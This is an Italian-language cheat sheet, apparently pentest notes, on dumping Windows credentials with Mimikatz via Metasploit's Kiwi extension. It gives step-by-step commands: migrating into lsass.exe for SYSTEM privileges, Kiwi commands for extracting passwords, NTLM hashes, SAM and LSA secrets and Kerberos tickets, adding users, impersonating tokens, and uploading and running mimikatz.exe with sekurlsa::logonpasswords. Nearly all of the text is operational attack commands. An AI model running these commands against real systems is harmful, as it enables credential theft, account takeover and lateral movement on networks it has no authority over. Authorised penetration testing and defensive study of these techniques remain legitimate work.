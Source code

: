 # Dumping Hashes con Mimikatz (via Kiwi Extension)

**Mimikatz** è un potente tool di post-exploitation scritto da Benjamin Delpy (`@gentilkiwi`) che consente di estrarre password in chiaro, hash, ticket Kerberos e altre credenziali dalla memoria di un sistema Windows. <br>
Una delle sue integrazioni più comode è attraverso **Metasploit**, grazie all’estensione `kiwi`.

Questa estensione permette di usare diverse funzioni di mimikatz direttamente da una sessione Meterpreter, evitando l’upload manuale del binario.

---

## 1 – Prerequisiti

Per funzionare correttamente, Mimikatz (e quindi `kiwi`) ha bisogno di **privilegi SYSTEM**, poiché il processo `lsass.exe` è protetto da Windows. Dopo aver ottenuto una shell su un target, assicurati di essere in un contesto privilegiato.

`pgrep lsass` individua il PID del processo lsass.exe <br>
`migrate <PID>` migra la sessione Meterpreter in lsass.exe <br>
`getuid ` verifica che stai operando come NT AUTHORITY\SYSTEM <br>


---

## 2 – Caricamento dell’estensione Kiwi

Carica l’estensione con:

`load kiwi` carica le funzioni mimikatz integrate in Meterpreter <br>

Per visualizzare tutti i comandi disponibili usa `?` oppure `help`

---

## 3 – Comandi principali dell’estensione Kiwi
```bash
creds_all                  # Estrae tutte le credenziali dalla memoria
creds_domain               # Estrae solo le credenziali del dominio
creds_msv                  # Estrae le credenziali MSV1_0 (locali)
creds_ssp                  # Estrae le credenziali SSP
creds_tspkg                # Estrae le credenziali TSPKG
creds_wdigest              # Estrae le credenziali in chiaro da WDIGEST (se abilitato)
creds_kerberos             # Estrae ticket Kerberos attivi
kerberos_ticket_use        # Usa un ticket Kerberos esistente (Pass-the-Ticket)
kerberos_ticket_list       # Mostra tutti i ticket Kerberos caricati
kerberos_ticket_purge      # Rimuove tutti i ticket
lsa_dump_sam               # Dump del database SAM, SysKey e hash
lsa_dump_secrets           # Estrae segreti e credenziali dalla memoria LSA
misc_add_user              # Crea un nuovo utente nel sistema
misc_cmd                   # Esegue un comando mimikatz personalizzato
ps                         # Lista dei processi
rev2self                   # Rimuove l’impersonificazione utente
sekurlsa_logonpasswords    # Visualizza le credenziali delle sessioni logon
token_list                 # Mostra i token utente disponibili
token_impersonate          # Impersona un token selezionato
ticket_purge               # Rimuove tutti i ticket Kerberos
```
## 4 – Dumping con Kiwi

Comandi pratici:

`creds_all` raccoglie tutte le credenziali disponibili <br>
`lsa_dump_sam` dump del Security Account Manager (SAM) locale <br>
`lsa_dump_secrets` estrae segreti memorizzati in LSA <br>
`sekurlsa_logonpasswords` credenziali logon in memoria (se visibili) <br>

---

## 5 – Uso classico di Mimikatz su shell

É possibile caricare direttamente il binario di mimikatz sul target usando l'upload:

`upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` carica mimikatz <br>
`shell` accedi a una shell <br>
`.\mimikatz.exe` esegui mimikatz <br>


Comandi classici:

`privilege::debug` verifica i privilegi <br>
`lsadump::sam` dump SAM (hash + chiavi) <br>
`lsadump::secrets` dump dei segreti <br>
`sekurlsa::logonpasswords` credenziali salvate in memoria <br>
